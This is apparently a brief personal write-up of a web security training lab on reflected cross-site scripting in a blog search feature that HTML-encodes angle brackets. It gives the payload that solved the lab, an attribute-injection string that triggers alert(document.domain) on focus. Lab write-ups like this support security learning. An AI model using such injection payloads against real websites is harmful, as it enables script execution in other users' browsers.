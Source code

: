 *This lab contains a reflected cross-site scripting vulnerability in the search blog functionality where angle brackets are HTML-encoded. To solve this lab, perform a cross-site scripting attack that injects an attribute and calls the alert function.*

Inserted the following payload into the search box to solve the lab:
`" autofocus onfocus=alert(document.domain) x="
![[Screenshot 2024-05-16 at 9.57.57 AM.png]]
